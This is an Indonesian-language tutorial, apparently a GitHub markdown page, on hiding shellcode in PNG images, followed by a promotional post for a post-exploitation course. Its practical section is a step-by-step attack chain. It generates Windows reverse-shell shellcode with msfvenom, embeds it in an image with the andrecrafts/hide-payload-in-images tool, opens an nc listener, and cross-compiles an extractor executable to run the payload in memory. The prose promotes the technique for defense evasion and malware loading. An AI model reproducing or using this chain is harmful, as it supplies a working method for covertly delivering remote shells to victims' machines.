

# Hiding Shellcode in Image Files
Hiding Shellcode in Image Files adalah teknik untuk menyembunyikan payload berupa shellcode di dalam sebuah file gambar (misalnya PNG), lalu mengekstraknya kembali menggunakan program Python atau C/C++ untuk kemudian dijalankan.

## ALur Kerjanya:
1. Embed payload
   - Shellcode ditambahkan ke akhir file gambar
   - Struktur gambar tidak rusak → gambar tetap bisa dibuka normal
2. Distribusi file gambar
   - File terlihat seperti gambar biasa
   - Tidak mencurigakan bagi user atau sebagian security tool
3. Extract payload
   - Program Python / C++ membaca data tambahan di file gambar
   - Shellcode dipisahkan dari data gambar
4. Eksekusi
    - Shellcode dijalankan di memori (fileless)

## Contoh Repository: andrecrafts/hide-payload-in-images
- https://github.com/andrecrafts/hide-payload-in-images
- https://andrecrafts.com/posts/hide-shellcode-in-images/

Repository ini bisa dijadikan contoh konkret untuk teknik Hiding Shellcode in Image Files.

### list file
- payload-embedder.py -> Menyembunyikan (embed) shellcode ke dalam file gambar
- payload-extractor-from-file.cpp -> Mengekstrak shellcode dari file gambar di disk
  - payload disimpan sebagai file external
- payload-extractor-from-resource.cpp -> Mengekstrak payload dari image yang disimpan di resource (.rsrc)
  - payload Disimpan di dalam binary EXE/DLL
- payload-extractor-from-resource-via-peb.cpp
  - Ekstraksi payload tanpa WinAPI

Salah satu contoh implementasi teknik Hiding Shellcode in Image Files dapat ditemukan pada repository andrecrafts/hide-payload-in-images. Repository ini menyediakan beberapa file yang merepresentasikan tahapan utama teknik tersebut, mulai dari proses penyisipan payload ke dalam file gambar menggunakan payload-embedder.py, hingga proses ekstraksi payload menggunakan program C/C++ baik dari file gambar langsung maupun dari resource internal binary Windows.

## praktek


membuat payload revshell dengan msfvenom
```bash
mkdir -p /tmp/test
cd /tmp/test

ip addr show eth1 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1
192.168.1.12

LHOST=192.168.1.12
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=9001 -f raw -o shellcode.bin
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=9001 -f raw -o shellcode.bin

msfvenom -p windows/x64/exec CMD=calc.exe -f raw -b '0x00' -o shellcode.bin

wget https://ctf.ariaf.my.id/fgte.png
```

embed shellcode ke dalam file gambar
```bash
git clone https://github.com/andrecrafts/hide-payload-in-images

# python payload-embedder.py <target_file> <payload_file> <output_file>
python3 hide-payload-in-images/code/payload-embedder.py fgte.png shellcode.bin fgte_payload.png
```

jalankan listener di terminal lain
```bash
nc -lvnp 9001
```

buat exe untuk nanti extract dan menjalankan shellcode dari fgte_payload.png
```bash
ls -la fgte_payload.png
# -rw-rw-r-- 1 vagrant vagrant 2361908 Feb  1 07:13 fgte_payload.png

cp hide-payload-in-images/code/payload-extractor/payload-extractor-from-file/payload-extractor-from-file.cpp .
nano payload-extractor-from-file.cpp
# // Constants for file paths and original file size
define TARGET_FILE_PATH "fgte_payload.png";             // Path to the modified target file
define ORIGINAL_FILE_SIZE 2361908                       // Replace with the actual size in bytes

# gcc -o extractor.exe payload-extractor-from-file.cpp -lws2_32 # gagal karena gcc default untuk linux

sudo apt update
sudo apt install mingw-w64
x86_64-w64-mingw32-g++ payload-extractor-from-file.cpp -o extractor.exe -lws2_32
x86_64-w64-mingw32-g++ payload-extractor-from-file.cpp -o extractor.exe
```

kirim ke target fgte_payload.png
```bash

```

---

🖼️ **HIDING SHELLCODE IN IMAGE FILES — ESSENTIALS**

File gambar bukan selalu sekadar gambar.
Dalam banyak skenario serangan nyata, image dapat berfungsi sebagai **carrier payload** tanpa terlihat mencurigakan.

**Hiding Shellcode in Image Files** adalah teknik untuk menyembunyikan shellcode di dalam file gambar (misalnya PNG), lalu mengekstraknya kembali menggunakan loader khusus untuk dieksekusi di memori.

Teknik ini **bukan eksploit awal**, melainkan **payload delivery & evasion technique**.

---

🎯 **Kenapa Teknik Ini Digunakan?**

Karena:

* Image adalah file yang “trusted”
* Parser image mengabaikan data ekstra
* Banyak security tool hanya memeriksa header & magic bytes

Hasilnya:

> Payload lolos inspeksi statis,
> dieksekusi secara fileless.

---

🔄 **Alur Kerja (High-Level)**

1. **Embed Payload**

   * Shellcode disisipkan ke dalam file gambar
   * Struktur image tetap valid → gambar bisa dibuka normal

2. **Distribusi**

   * File terlihat seperti image biasa
   * Tidak mencurigakan bagi user atau sebagian security control

3. **Extract Payload**

   * Loader (Python / C++) membaca data tambahan
   * Payload dipisahkan dari data image

4. **Eksekusi**

   * Shellcode dijalankan langsung di memori
   * Minim artefak di disk

---

🧠 **Kunci Teknik Ini**
• Image format toleran terhadap extra data
• Payload tidak merusak struktur utama
• Loader tahu offset payload
• Eksekusi dilakukan di memory
• Fokus pada **bagaimana sistem memproses file**, bukan tampilannya

> Bukan gambarnya yang berbahaya,
> tapi **cara ia digunakan** 🧠

---

📦 **Referensi Teknis (Contoh Repository)**
Repository berikut dapat dijadikan **contoh konkret konsep hiding payload**:

* andrecrafts/hide-payload-in-images
* Payload embedder
* Payload extractor (file & resource)
* Ekstraksi via resource & PEB (tanpa WinAPI)

Digunakan untuk memahami:

* Payload staging
* Resource abuse
* Memory execution
* Defense evasion

---

🔥 **Relevansi ke Dunia Nyata**
Teknik ini umum dipakai dalam:

* Malware loader
* Red team operation
* Post-exploitation stage
* Payload staging setelah foothold

Serangan modern **tidak berhenti di exploit awal**.

---

🎓 **CPES – Certified Privilege Escalation Specialist**

CPES fokus pada:

* Post-exploitation
* Privilege escalation
* Lateral movement
* Payload delivery & evasion
* Real-world attack chaining

Mulai dari:

> foothold → persistence → dominance

Kalau kamu sudah paham exploit,
**CPES ngajarin cara bertahan & berkembang di dalam sistem target.**

---

🔗 Program CPES
👉 [https://linuxenic.com/cpes](https://linuxenic.com/cpes)

🌐 Linuxenic Corp
👉 [https://linuxenic.com](https://linuxenic.com)

@linuxenicorp @linuxenic

#CPES #HidingPayload #Shellcode
#PostExploitation #DefenseEvasion
#RedTeam #CyberSecurity #CTF
